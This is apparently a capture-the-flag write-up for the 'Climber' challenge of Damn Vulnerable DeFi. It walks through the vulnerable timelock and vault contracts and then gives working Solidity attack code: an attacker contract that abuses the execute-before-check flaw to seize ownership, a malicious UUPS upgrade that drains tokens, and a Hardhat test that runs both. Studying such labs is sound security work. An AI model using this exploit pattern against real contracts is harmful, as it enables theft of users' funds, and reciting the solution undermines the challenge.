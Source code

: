 #+AUTHOR: Francesco Cannarozzo
* Climber
** Statement
** Files
*** ClimberTimelock.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/AccessControl.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title ClimberTimelock
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ClimberTimelock is AccessControl {
    using Address for address;

    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant PROPOSER_ROLE = keccak256("PROPOSER_ROLE");

    // Possible states for an operation in this timelock contract
    enum OperationState {
        Unknown,
        Scheduled,
        ReadyForExecution,
        Executed
    }

    // Operation data tracked in this contract
    struct Operation {
        uint64 readyAtTimestamp;   // timestamp at which the operation will be ready for execution
        bool known;         // whether the operation is registered in the timelock
        bool executed;      // whether the operation has been executed
    }

    // Operations are tracked by their bytes32 identifier
    mapping(bytes32 => Operation) public operations;

    uint64 public delay = 1 hours;

    constructor(
        address admin,
        address proposer
    ) {
        _setRoleAdmin(ADMIN_ROLE, ADMIN_ROLE);
        _setRoleAdmin(PROPOSER_ROLE, ADMIN_ROLE);

        // deployer + self administration
        _setupRole(ADMIN_ROLE, admin);
        _setupRole(ADMIN_ROLE, address(this));

        _setupRole(PROPOSER_ROLE, proposer);
    }

    function getOperationState(bytes32 id) public view returns (OperationState) {
        Operation memory op = operations[id];
        
        if(op.executed) {
            return OperationState.Executed;
        } else if(op.readyAtTimestamp >= block.timestamp) {
            return OperationState.ReadyForExecution;
        } else if(op.readyAtTimestamp > 0) {
            return OperationState.Scheduled;
        } else {
            return OperationState.Unknown;
        }
    }

    function getOperationId(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) public pure returns (bytes32) {
        return keccak256(abi.encode(targets, values, dataElements, salt));
    }

    function schedule(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external onlyRole(PROPOSER_ROLE) {
        require(targets.length > 0 && targets.length < 256);
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);
        require(getOperationState(id) == OperationState.Unknown, "Operation already known");
        
        operations[id].readyAtTimestamp = uint64(block.timestamp) + delay;
        operations[id].known = true;
    }

    /** Anyone can execute what has been scheduled via `schedule` */
    function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external payable {
        require(targets.length > 0, "Must provide at least one target");
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; i++) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }
        
        require(getOperationState(id) == OperationState.ReadyForExecution);
        operations[id].executed = true;
    }

    function updateDelay(uint64 newDelay) external {
        require(msg.sender == address(this), "Caller must be timelock itself");
        require(newDelay <= 14 days, "Delay must be 14 days or less");
        delay = newDelay;
    }

    receive() external payable {}
}
#+END_SRC
**** Breakdown
***** State
      Two 32-byte constants are kept, *ADMIN_ROLE* and *PROPOSER_ROLE*, for the purpose of 
      access control. Furthermore, a struct *Operation* is defined, and instances of such a structure
      stored in a *bytes32 => Operation* mapping named *operations*. a variable *delay*, set to
      1 hour, is also declared and initialized.
***** Constructor
      The constructor for this contract, taking two addresses for *admin* and *proposer*,
      takes care of properly calling superclass methods from *AccessControl* to properly
      set up the contract
***** getOperationState
      Given a *bytes32* /id/ for  an operation, returns a different element of contract-defined
      enum *OperationState*, depending on the state of execution of the id'd operation.
***** getOperationId
      after passing in the same input required by *schedule()*, allows determination of its id.
***** schedule
      only callable by a sender with the *proposer* role, takes in an array of addresses /targets/,
      one of uints, /value/, one of bytes, /dataElements/, and a single 32-byte value called /salt/.

      After various requirements of *targets.length* are met, an id for the operation is computed
      through the above function: if the operation is not yet known, *operation[id].readyAtTimestamp* is set to
      current block timestamp plus the delay, and *operations[id].known* to true.
***** execute
      taking in the same input as above, and again making requirements on *targets.length*,
      the operation's id is computed once again. Corresponding calls are then made, associating
      the n-th target address with the n-th dataElement and the n-th value.
      Finally, the operation state is required to be *ReadyForExecution* (doing so after calling functions is a bit odd)
      and finally the operation's state is set to *executed*
***** updateDelay
      only callable by the contract itself, allows changing *delay*.
*** ClimberVault.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import "./ClimberTimelock.sol";

/**
 * @title ClimberVault
 * @dev To be deployed behind a proxy following the UUPS pattern. Upgrades are to be triggered by the owner.
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ClimberVault is Initializable, OwnableUpgradeable, UUPSUpgradeable {

    uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
    uint256 public constant WAITING_PERIOD = 15 days;

    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    modifier onlySweeper() {
        require(msg.sender == _sweeper, "Caller must be sweeper");
        _;
    }

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() initializer {}

    function initialize(address admin, address proposer, address sweeper) initializer external {
        // Initialize inheritance chain
        __Ownable_init();
        __UUPSUpgradeable_init();

        // Deploy timelock and transfer ownership to it
        transferOwnership(address(new ClimberTimelock(admin, proposer)));

        _setSweeper(sweeper);
        _setLastWithdrawal(block.timestamp);
        _lastWithdrawalTimestamp = block.timestamp;
    }

    // Allows the owner to send a limited amount of tokens to a recipient every now and then
    function withdraw(address tokenAddress, address recipient, uint256 amount) external onlyOwner {
        require(amount <= WITHDRAWAL_LIMIT, "Withdrawing too much");
        require(block.timestamp > _lastWithdrawalTimestamp + WAITING_PERIOD, "Try later");
        
        _setLastWithdrawal(block.timestamp);

        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, amount), "Transfer failed");
    }

    // Allows trusted sweeper account to retrieve any tokens
    function sweepFunds(address tokenAddress) external onlySweeper {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(_sweeper, token.balanceOf(address(this))), "Transfer failed");
    }

    function getSweeper() external view returns (address) {
        return _sweeper;
    }

    function _setSweeper(address newSweeper) internal {
        _sweeper = newSweeper;
    }

    function getLastWithdrawalTimestamp() external view returns (uint256) {
        return _lastWithdrawalTimestamp;
    }

    function _setLastWithdrawal(uint256 timestamp) internal {
        _lastWithdrawalTimestamp = timestamp;
    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}
}
#+END_SRC
**** Breakdown
***** State
      as the contract constrains trasfer by the owner in both amount and time,
      constants *WITHDRAWAL_LIMIT* and *WAITING_PERIOD* are kept.
      to keep track of time, integer *_lastWithdrawalTimestamp* is maintained.
      an address *sweeper* is also maintained.
***** constructor
      an empty constructor is kept, with the *initializer* modifier from *Initializable* superclass.
***** initialize
      with an empty constructor, it's a call to this function that sets up the contract.
      First, superclasses  *Ownable* and *UUPSUpgradeable*'s initializer methods are called;
      following, ownership is transfered to a newly instantiated *ClimberTimelock* contract,
      passing down *admin* and *proposer*. the sweeper is then set to the one provided as parameter,
      using *_setSweeper()*. Finally, *_lastWithdrawalTimetsamp* is set to current block's,
      both via *_setLastWithdrawal* and directly. A little redundant?
***** withdraw
      Allows owner to withdraw an *amount* of the token at *tokenAddress*, in favor of *recipient*.
      after requiring both time and amount constraints to be met,
      *_setLastWithdrawal()* is called with current timestamp;
      finally, the transfer is required to go through.
***** sweepFunds
      only callable by Sweeper, sends them _ALL_ the tokens at *tokenAddress* belonging
      to the contract. Definitely a good target.
***** getSweeper
      returns _sweeper.
***** _setSweeper
      internal, sets *_sweeper* to provided *newSweeper*.
***** getLastWithdrawalTimestamp
      returns _lastWithdrawalTimestamp.
***** _setLastWithdrawal
      sets *_lastWithdrawalTimestamp* to provided *timestamp*
***** _authorizeUpgrade
      overrides UUPSUpgradeable's function with modifier *onlyOwner*, making it only callable by
      the owner (at initialization, the *ClimberTimelock* contract.)
** Exploit
   as the *ClimberTimelock* contract is set to own *ClimberVault*, it represents a very alluring target:
   by controlling it, not only we could access all of the vault's funds, but even change its implementation.
   luckily for us, the way the contract manages operation is unsecure, for a few reasons:
   - Anyone can call *execute()*
   - scheduled actions affect the contract itself
   - the check on *OperationState* is performed at the end, allowing us to modify contract state before it.

     How, then, should contract state be modified? We can think of a few ways.

   1. Time limits are a big nuisance. We would like to set *delay* to zero.
   2. Our ultimate goal is stealing the vault's contents. Since we can impersonate timelock, which is the current owner, we want that ownership transferred to us.
   3. since we need to call *timelock.schedule()* in order to pass the final requirement, we ought to make ourself proposers
   4. finally, we ought to schedule everything properly.

   we can thus craft an attacker contract, transferring vault ownership to *attacker*.

   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import 'contracts/climber/ClimberTimelock.sol';
import 'contracts/climber/ClimberVault.sol';

contract ClimberAttacker{
    address[] targets;
    uint256[] values;
    bytes[] dataElements; //functions
    ClimberTimelock timeLock;
    ClimberVault vault;
    bytes32 constant salt = keccak256("sale e non fa male");

    constructor( address payable _timeLock, address _vault) {
        vault = ClimberVault(_vault);
        timeLock = ClimberTimelock(_timeLock);
    }

    function _makeProposer() internal {
        targets.push(address(timeLock));
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
    }

    function _zeroDelay() internal {
        targets.push(address(timeLock));
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature("updateDelay(uint64)", uint64(0))
        );
    }

    function _stealVault(address newOwner) internal {
        targets.push(address(vault));
        values.push(0);
        dataElements.push(
            abi.encodeWithSignature("transferOwnership(address)", newOwner)
        );

    }
    //call this last
    function _doSchedule() internal  {
        targets.push(address(this));
        values.push(0);
        dataElements.push(abi.encodeWithSignature("schedule()"));



    }

    function schedule() public {
        timeLock.schedule(targets, values, dataElements, salt);
    }


    function attack() external {
        _zeroDelay();
        _makeProposer();
        _stealVault(msg.sender);
        _doSchedule();
        timeLock.execute(targets, values, dataElements, salt);
    }
}
   #+END_SRC

   this is still not enough. While now *attacker* is the owner of vault, it is not the sweeper.
   sadly, as *_setSweeper()* is an internal function only called upon initialization, there
   would be no way for us to change the sweeper without changing the contract's implementation.
   
   good thing, then, that we can do just that.

   we can craft a malicious vault upgrade, as a contract implementing the very same superclasses,
   but redefining  *sweepFunds()* as an *ownerOnly* function. then we can, well, sweep.

   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";


contract TotallyNotMaliciousUpgrade is Initializable, OwnableUpgradeable, UUPSUpgradeable {


    uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
    uint256 public constant WAITING_PERIOD = 15 days;

    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper; //must keep even if unused



    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() initializer {}

    function initialize() initializer external {
        // Initialize inheritance chain
        __Ownable_init();
        __UUPSUpgradeable_init();

    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}



        function sweepFunds(address tokenAddress) external  onlyOwner {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(msg.sender, token.balanceOf(address(this))), "Transfer failed");
    }

}
   #+END_SRC
   
   finally, we run the exploit.

   #+BEGIN_SRC javascript
    it('Exploit', async function () {        
        const attackerFactory = await ethers.getContractFactory('ClimberAttacker', attacker);
        const attackerContract = await attackerFactory.deploy(this.timelock.address, this.vault.address);
        await attackerContract.connect(attacker).attack();

        const TotallyNotMaliciousUpgradeFactory = await ethers.getContractFactory('TotallyNotMaliciousUpgrade', attacker);

        const TotallyNotMaliciouslyUpgradedVault = await upgrades.upgradeProxy(
            this.vault.address,
            TotallyNotMaliciousUpgradeFactory
        )

        await TotallyNotMaliciouslyUpgradedVault.connect(attacker).sweepFunds(this.token.address);
    });
   #+END_SRC
   
   
   
